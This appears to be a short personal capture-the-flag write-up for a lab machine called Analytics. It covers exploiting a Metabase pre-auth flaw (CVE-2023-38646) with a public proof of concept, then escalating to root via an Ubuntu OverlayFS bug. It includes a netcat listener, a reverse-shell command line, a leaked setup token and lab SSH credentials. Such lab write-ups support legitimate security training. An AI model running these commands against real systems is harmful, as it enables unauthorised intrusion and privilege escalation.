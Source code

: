 # Analytics 
## recon 

http://data.analytical.htb/
http://analytical.htb/


exploit Metabase 
https://github.com/shamo0/CVE-2023-38646-PoC?source=post_page-----866220684396--------------------------------
http://data.analytical.htb/api/session/properties

"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"

create listenner 
```
nc -lvnp 9999
```

use POC 
```
python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/ --lhost 10.10.16.15 --lport 9999
```

env give us ssh user & password for metalytics
META_USER=metalytics
META_PASS=An4lytics_ds20223#

Linux version 
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

google 25~22.04.2-Ubuntu -> CVE-2023-2640 
use https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh?source=post_page-----8cf81fa970ca--------------------------------

rooted
